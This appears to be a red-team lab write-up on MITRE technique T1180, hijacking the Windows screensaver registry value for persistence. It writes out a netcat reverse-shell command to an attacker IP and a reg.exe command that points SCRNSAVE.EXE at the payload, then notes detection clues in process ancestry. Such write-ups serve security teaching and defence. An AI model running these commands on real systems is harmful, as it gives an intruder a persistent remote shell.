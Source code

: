 ```yaml
---
description: Hijacking screensaver for persistence.
---
```


# T1180: Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file.

In this test, I will use a netcat reverse shell as my malicious payload:

{% code title="c:\\shell.cmd@victim" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Let's update the registry:

![](../../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native Windows binary reg.exe:

{% code title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode %}

![](../../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:

![](../../.gitbook/assets/screensaver-shell%20%281%29.png)

![](../../.gitbook/assets/screensaver-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" caption="" %}

